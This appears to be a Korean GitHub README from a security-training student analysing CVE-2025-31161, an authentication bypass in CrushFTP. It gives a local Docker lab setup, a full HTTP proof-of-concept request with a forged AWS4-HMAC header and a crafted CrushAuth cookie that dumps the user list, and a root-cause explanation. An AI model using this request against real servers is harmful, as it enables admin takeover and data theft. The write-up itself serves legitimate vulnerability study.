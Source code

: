 # CVE-2025-31161 | CrushFTP Authentication Bypass
---
> 화이트햇 스쿨 3기 (19반) - [김휘성 (@hwisungkk)](https://github.com/hwisungkk) / [Blog Link](https://hwisungkk.github.io/)<br>
> [상세 취약점 분석](https://abounding-king-077.notion.site/CVE-2025-31161-1e289d4224478074b76bdf15b4a30590) - notion

<br>

### 요약
- 다중 프로토콜, 다중 플랫폼을 지원하는 파일 전송 서버인 CrushFTP AWS S3 인증 과정의 헤더 처리 로직 결함으로 인한 인증 우회 취약점입니다. <br>

- 알려진 사용자명을 이용해 공격자는 인증 없이 관리자 권한 획득이 가능해서 원격 코드 실행까지 가능합니다.
  
- 패스워드 검증 과정에서 문제가 발생해 검증이 생략됩니다.

- CVE-2025-2825로 발급된 후 reject되고 CVE-2025-31161로 부여되었습니다.

### target
- CrushFTP 11.0.0 ≤ 11.3.0
- CrushFTP 10.0.0 ≤ 10.8.3


## 환경 구성 및 실행
- [CrushFTP 10.8.0_4 version](https://github.com/NetLah/docker-crushftp/tree/main) 해당 repo에서 취약점이 발생하는 CrushFTP 버전 사용.

- `docker run -p 21:21 -p 443:443 -p 20000-20100:20000-20100 -p 2222:2222 -p 8080:8080 -p 9090:9090 -v ~/crushftp-data:/var/opt/crushftp --name crushftp netlah/crushftp:latest` 터미널에서 실행해서 127.0.0.1:8080 에서 CrushFTP 서버를 실행

- burpsuit로 PoC message를 보내 계정 인증 우회 가능. 계정 정보 출력으로 관리자 권한 확인

## Poc message
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8081/WebInterface/UserManager/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: CrushAuth=1743113839553_e96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive

```
```
1. 가짜 AWS S3 인증 헤더와 특수하게 포맷된 CrushAuth 쿠키를 사용하여 악성 HTTP 요청 작성 
2. "crushadmin"과 같은 알려진 기본 사용자 이름을 타겟팅 (~ 문자 제외하고)
3. CrushFTP 웹 인터페이스에 요청 제출
```
- Authorization 헤더는 "AWS4-HMAC"로 시작<br>
- CrushAuth는 유효할 필요없이 13개 숫자 + 언더바 + 30자 문자열<br>
- 마지막 4글자가 c2f와 같다면 사용자 목록을 서버로부터 응답받을 수 있습니다.

## 결과
**서버**
![normal](./assets/open_server.png)

![normal](./assets/open_server2.png)

127.0.0.1:8080에 띄운 후<br>
burpsuite로 poc message를 보내면<br>

![normal](./assets/poc.png)

**계정 정보 탈취 성공**

## 정리
```c
boolean lookup_user_pass = true;  // Default to true - this is crucial!
```
코드처럼 true로 권한을 주고, 뒤의 흐름에서 어떤 조건(해당 취약점에서는 '~'가 있는지)으로 false로 바꾸는 흐름은 위험합니다. 조건을 우회하기만 하면 변수의 값이 true로 남고, 악용할 수 있기 때문입니다.<br>

현재는 방어 방법으로 보안을 위한 새로운 매개변수를 만들어서 false 값을 준 다음 lookup_user_pass가 아닌 매개변수로 검사를 해서 로직을 나눴습니다.
